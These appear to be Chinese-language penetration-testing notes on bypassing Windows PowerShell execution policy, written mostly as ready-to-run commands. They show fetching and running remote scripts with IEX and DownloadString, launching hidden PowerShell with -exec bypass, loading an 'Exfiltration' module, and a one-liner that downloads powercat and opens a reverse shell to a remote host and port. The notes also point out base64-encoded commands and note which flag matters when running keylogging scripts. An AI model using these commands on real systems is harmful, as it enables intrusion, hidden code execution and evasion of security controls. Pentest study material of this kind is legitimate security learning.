**运行脚本**：直接`.\test.psl`就能运行

## 绕过执行策略执行PowerShell脚本:

在渗透测试时，需要采用一些方法绕过策略来执行PowerShell脚本：

- **下载远程PowerShell脚本在cmd中启动powershell绕过远程权限执行:**

    - 经过测试，在cmd窗口执行远程下载的powershell脚本，不论当前策略，都可以直接运行（win10下测试失败，无法执行，win8下测试成功可以执行）。而powershell窗口不行。

    - ```powershell
        #cmd窗口执行以下命令
        powershell -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')
        下载test.ps1之后就会直接执行
        #DownloadString：文件下载到字符串
        #IEX（Invoke-Expression的别名）：用来把字符串当作命令执行。类型php的eval
        #-c执行powershell命令
        
        #在powershell窗口执行
        IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.10.11/test.ps1')
        ```

- **绕过本地权限执行**:

    - 上传test.ps1到目标主机，**在cmd环境下**，在目标主机本地当前目录执行该脚本

    - **powershell -exec bypass**  **启动绕过安全策略的powershell**。

    - **powershell  -exec bypass 进入powershell然后执行脚本**，这里面的powershell环境就没有安全策略了

    - `powershell.exe -exec bypass -W hidden -nop -File test.ps1`，不会进行powershell环境，直接执行脚本

        - ```powershell
             powershell -help 可以查看这些参数的含义
                
            -ExecvtionPolicy Bypass（-exec bypass）：绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PoweShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全保护规则
            
            -WindowStyle Hidden(-w hidden)：隐藏窗口，也就是执行完命令后，窗口隐藏，不是关闭窗口
            
            -command(-c)：执行powershell的命令
            
            -NoProfile(-nop)：PowerShell控制台不加载当前用户的配置文件
            -NoLogo：启动不显示版权标志的PowerShell
            -Nonlnteractive(-noni)：非交互模式
            -Noexit：执行后不退出shell，这在使用键盘记录等脚本时非常重要 
            -EncodedCommand（-enc）  base64编码的字符串： 接受命令以 base-64 编码的字符串版本。

    - powshell -exec bypass -c Import-Module ./Exfiltration;Get-Command -Module Exfiltration

        - **执行powershell模块里面的命令，常用**
        - 记得模块文件导入模块 **./** 和不要加**.psl**文件后缀，  **-c**命令很好用

- **下载远程文件，同时绕过本地权限并且执行**

    - ```cmd
        powershell -exec bypass IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
        ```
